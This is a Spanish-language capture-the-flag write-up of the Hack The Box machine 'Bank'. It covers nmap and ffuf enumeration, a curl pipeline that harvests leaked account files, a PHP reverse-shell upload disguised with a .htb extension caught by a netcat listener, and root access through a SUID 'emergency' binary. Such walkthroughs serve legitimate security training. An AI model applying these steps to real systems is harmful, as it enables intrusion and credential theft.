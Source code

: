 ```yaml
---
layout: default
title: Bank
---
```

# Bank | Write-Up

## Enumeración inicial

Empezamos comprobando que hay conexión mediante paquetes ICMP con el comando ping.

```bash
$ ping -c 1 10.129.1.243
PING 10.129.1.243 (10.129.1.243) 56(84) bytes of data.
64 bytes from 10.129.1.243: icmp_seq=1 ttl=63 time=7.35 ms

--- 10.129.1.243 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 7.353/7.353/7.353/0.000 ms
```

Una vez comprobamos que tenemos conexión, procedemos a realizar un escaneo de puertos con nmap.

```bash
$ nmap 10.129.1.243
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-15 10:51 CDT
Nmap scan report for 10.129.1.243
Host is up (0.0090s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds
```

Vemos 3 puertos abiertos, aunque el que más nos interesa es el 80, por el que corre un servicio http, ya que las aplicaciones web suelen ser las vias de entrada principal para los pentesters, no obsante, primero analizaremos más a fondo los puertos por si hay alguna versión vulnerable a algún CVE.

```bash
$ nmap -sCV 10.129.1.243 -p22,53,80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-15 10:53 CDT
Nmap scan report for 10.129.1.243
Host is up (0.0075s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.64 seconds
```

No parece ser vulnerable ninguna de las versiones a priori, comprobándolo con CVEs en bases de datos públicas como ExploitDB, Rapid7, etc.

Si navegamos a la Web, podemos ver la página por defecto de Apache:

![bank]({{ "/assets/images/bank1.png"}})

No obstante, si hacemos fuerza bruta de Vhosts, es probable que no encontremos ninguno, esto se debe a que en esta máquina se usa el Vhost **bank.htb**, el cual por el nombre es predecible, esta entrada deberíamos agregarla al archivo **/etc/hosts**:

```bash
$ echo '10.129.1.243 bank.htb' | sudo tee -a /etc/hosts
```

Ahora podemos navegar al vhost **bank.htb**, el cual nos lleva a una página de login, no obstante, como no conocemos credenciales de momento, haremos fuzzing de directorios con la herramienta **ffuf**:

```bash
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://bank.htb/FUZZ -ic

<SNIP>

uploads                 [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 10ms]
assets                  [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 7ms]
inc                     [Status: 301, Size: 301, Words: 20, Lines: 10, Duration: 7ms]
                        [Status: 302, Size: 7322, Words: 3793, Lines: 189, Duration: 16ms]
server-status           [Status: 403, Size: 288, Words: 21, Lines: 11, Duration: 7ms]
balance-transfer        [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 7ms]
```

Vemos un directorio que se llama **balance-transfer**, y teniendo en cuenta que es un banco, podría estar interesante, vamos a navegar a él:

![bank]({{ "/assets/images/bank2.png"}})

Podemos ver muchísimos archivos, descargando alguno de ellos vemos el contenido tal que así:

```bash
$ cat 0a0b2b566c723fce6c5dc9544d426688.acc 
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```

Tiene credenciales encriptadas, interesante, en la mayoría pone **++OK ENCRYPT SUCCESS**, no obstante, o bien navegando en el directorio o bien con el Intruder podemos ver el contenido de todos los archivos, o incluso descargarlos todos, en este caso, vamos a usar **Turbo Intruder**, no obstante, antes tenemos que sacar los nombres de todos los archivos y guardarlos en un fichero, usaremos el siguiente comando para ello:

```bash
$ curl http://bank.htb/balance-transfer/ | cut -d "\"" -f8 | head -n 1010 | tail -n1000 > archivos_bank.txt
```

Tras ejecutarlo, tendríamos los nombres de los 1000 archivos que se encuentran en el directorio dentro del archivo **archivos_bank.txt**, ahora sí, usemos Turbo Intruder:

![bank]({{ "/assets/images/bank3.png"}})

Tras ejecutarlo, si ordenamos por longitud de respuesta, veremos uno que ocupa bastante menos que los demás, y si vemos el contenido encontramos un mensaje **--ERR ENCRYOT FAILED** y por lo tando las credenciales desencriptadas:

![bank]({{ "/assets/images/bank4.png"}})

Una vez iniciemos sesión con esas credenciales, vemos un apartado de soporte dentro del banco, en el que podemos subir tickets, con imágenes!

Si echamos un vistazo al código fuente, vemos el siguiente comentario:

![bank]({{ "/assets/images/bank5.png"}})

Parece que si subimos archivos con extensión **.htb**, el sistema lo ejecutará como un archivo php, podemos coger un payload de **revshells.com** o bien escribirlo nosotros mismos, o incluso usar msfvenom.

Una vez elegido el payload y añadido a un archivo con extensión **.htb**, ponemos a escucha el puerto que específicamos en el payload.

```bash
$ sudo nc -lvnp 443
listening on [any] 443 ...
```

Una vez subido el archivo, hacemos click en **click here** en la columna **attachments** y se ejecutará el archivo, por lo que recibiremos una reverse shell.

![bank]({{ "/assets/images/bank6.png"}})

```bash
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.130] from (UNKNOWN) [10.129.1.243] 35588
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 19:31:06 up 42 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1081): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/$ whoami
whoami
www-data
www-data@bank:/$ 
```

Tenemos la reverse shell bajo el usuario **www-data**, si vamos a /home/, encontramos el directorio del usuario **chris**, el cual contiene la user flag, y podemos leerla con nuestro usuario.

```bash
www-data@bank:/home/chris$ ls -l
total 4
-r--r--r-- 1 chris chris 33 Jul 15 18:48 user.txt
www-data@bank:/home/chris$ cat user.txt 
```

Para escalar privilegios, podríamos usar herramientas como **LinPeas** para enumerar el sistema, no obstante, lo haremos manual, busquemos binarios u ejecutables con el permiso SUID con el siguiente comando:

```bash
www-data@bank:/home/chris$ find / -type f -perm -4000 2>/dev/null 
/var/htb/bin/emergency
```

Hay muchos binarios que es normal que tengan el SUID, los acorté, no obstante, encontramos uno llamado **emergency** y no sabemos que hace, si navegamos a **/var/htb** encontramos una versión del binario sin compilar, podemos ver qué hace el binario:

```bash
www-data@bank:/var/htb$ ls
bin  emergency
www-data@bank:/var/htb$ cat emergency 
#!/usr/bin/python
import os, sys

def close():
	print "Bye"
	sys.exit()

def getroot():
	try:
		print "Popping up root shell..";
		os.system("/var/htb/bin/emergency")
		close()
	except:
		sys.exit()

q1 = raw_input("[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]: ");

if q1 == "y" or q1 == "yes":
	getroot()
else:
	close()
```

Cómo podemos ver, es un archivo que nos pregunta literamlmente si queremos una shell como el usuario root, nos saldrá un prompt, si ponemos **y** nos dará directamente una shell como el usuario root, no obstante, podemos ejecutar el binario directamente y ni nos pregunta, obtenemos la shell como root.

```bash
www-data@bank:/var/htb$ bin/emergency 
# whoami
root
```

Ya seríamos root y habríamos acabado con la máquina Bank! La flag de root se encuentra en **/root**
